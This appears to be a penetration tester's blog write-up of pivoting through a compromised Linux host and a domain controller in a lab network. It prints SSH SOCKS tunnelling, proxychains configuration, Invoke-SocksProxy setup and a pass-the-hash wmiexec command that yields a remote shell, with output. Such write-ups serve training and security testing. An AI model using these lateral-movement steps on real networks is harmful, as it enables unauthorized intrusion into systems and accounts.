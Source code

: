 ```yaml
---
layout: post
title:  "Pivoting In A Linux + Windows Env"
date:   2019-10-18 4:58:00 +0100
categories: PT pivoting
---
```


Scenario: I had rooted a linux box and used it to compromise other machines including a DC. And now I wanted to use that DC to go deeper into the network.

What I wanted to achieve:

```
+--------+     +-----+    +--+
|attacker+---->+Linux+--->+DC|
+--------+     +-----+    +--+
                          |
                          |
                          v
                        +--------------+
                        |Access to more|
                        |Things in the |
                        |Network       |
                        +--------------+
```

I was already pivoting on the Linux box, now I wanted to do the same on the DC.

## Pivoting on The Linux Box

### On Our Attacking Machine
I already had the private key for the root account, so I connected and setup dynamic port forwarding (setting up a socks proxy basically) over port 9000:

`ssh -i ~/.ssh/keys/key1 -D 9000 -Nf root@10.10.110.126`

modify /etc/proxychains.conf to include the linux box:

``` bash
[ProxyList]
### For Lab:
socks4 127.0.0.1 9000 
```

And thats it, now prefix any command you need to be proxied through the linux box with `proxychains`.

## Pivoting on The Windows Machine
I used the following powershell script to setup a socks proxy on the windows machine (DC): https://github.com/p3nt4/Invoke-SocksProxy

### On The DC:

Drop the script `Invoke-SocksProxy.psm1` from the repo on the windows machine. And run it.
In this scenario I ran the socks proxy on port 9000, note that I am a Domain Admin:

``` powershell
PS C:\users\humoud\Documents> Import-Module .\Invoke-SocksProxy.psm1
PS C:\users\humoud\Documents> Invoke-SocksProxy -bindPort 9000
Listening on port 9000...
New Connection from  172.16.1.221:36328
Threads Left: 199
New Connection from  172.16.1.221:36330
Threads Left: 199
New Connection from  172.16.1.221:36332
Threads Left: 198
New Connection from  172.16.1.221:36334
Threads Left: 197
```

### On Our Attacking Machine (Kali):
Now, we need to configure proxychains on our attacking machine.

modify /etc/proxychains.conf:

``` bash
[ProxyList]
### For Lab:
socks4 127.0.0.1 9000   # For the Linux Box, already there
socks4 172.16.1.2 9000  # Windows Box (DC1) <added this>
```

### Testing:
Time to test the setup, run a command prefixed with `proxychains`.
Here I ran wmiexec from Impacket, attempted to pass-the-hash and it succeeded:

```bash
> proxychains wmiexec.py -hashes :some_hash_here_:) administrator@172.16.2.3
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:9000-<>-172.16.1.2:9000-<><>-172.16.2.3:49666-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

